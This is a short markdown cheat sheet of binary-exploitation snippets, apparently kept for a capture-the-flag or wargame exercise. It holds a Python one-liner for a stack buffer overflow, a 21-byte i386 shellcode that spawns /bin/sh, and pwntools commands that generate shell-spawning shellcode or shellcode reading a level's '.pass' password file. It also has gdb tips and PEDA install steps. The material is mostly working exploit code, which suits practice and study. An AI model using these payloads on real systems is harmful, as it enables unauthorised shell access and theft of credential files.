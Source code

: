 # Reverse Engineering

- [GCC](#gcc)
- [OverFlow](#overflow)
- [Shellcode](#shellcode)

## Overflow
### Basic
```
(python -c "import struct; print('A' * (100 - 0) + struct.pack('<I', 0xffffffff))")
```

### Shellcode
```
(python -c "import struct; print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * (100 - 21) + struct.pack('<I', 0xffffffff))")
```

## Shellcode
### Cat
```
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.cat('/home/users/level05/.pass')); print(shell); print(len(shell))"
```

### Exec sh 1
```
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.sh()); print(shell); print(len(shell))"
```

### Exec sh 2
```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
21
```

## GCC
### Get env address
```
x/10s **(char***)&environ
```
### Peda
#### Install
```
git clone https://github.com/longld/peda.git ~/.peda
echo "source ~/.peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"
```

